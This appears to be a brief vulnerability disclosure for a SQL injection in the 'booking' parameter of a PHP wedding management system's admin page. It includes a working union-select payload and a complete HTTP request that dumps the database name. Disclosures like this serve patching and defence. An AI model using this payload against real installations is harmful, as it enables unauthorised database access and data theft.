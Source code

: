 # Wedding Management System v1.0 by codeastr.com has SQL injection

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: \admin\client_assign.php

Vulnerability location: /Wedding-Management/admin/client_assign.php?booking=, booking

[+] Payload: booking=-31%20union%20select%201,2,3,4,5,database(),7,8--+

dbname = dbwedding

```sql
GET /Wedding-Management/admin/client_assign.php?booking=-31%20union%20select%201,2,3,4,5,database(),7,8--+&user_id=31 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/167982690-aea66178-cca8-4304-b075-4314098692d6.png)

![image](https://user-images.githubusercontent.com/54017627/167982624-601f0505-da3e-433b-a655-3c1cecaecb2e.png)
